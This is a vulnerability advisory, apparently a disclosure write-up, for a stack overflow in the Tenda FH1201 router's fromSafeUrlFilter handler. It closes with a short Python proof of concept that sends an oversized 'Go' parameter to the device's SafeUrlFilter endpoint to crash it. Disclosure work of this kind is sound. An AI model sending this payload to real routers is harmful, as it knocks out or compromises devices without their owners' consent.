


# Tenda FH1201 fromSafeUrlFilter_Go
### Overview
vendor: Tenda

product: FH1201

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1201 V1.2.0.14(408) were discovered to contain a stack overflow via the Go parameter in the fromSafeUrlFilter function.
### Vulnerability details
In function fromSafeUrlFilter line 30, it reads in a user-provided parameter `Go`, and the variable is passed to the `strcpy` function without any length check, which may overflow the stack-based buffer `dest`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.



### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a" * 1000,
}

response = requests.post(url, data=data)
print(response.text)
```


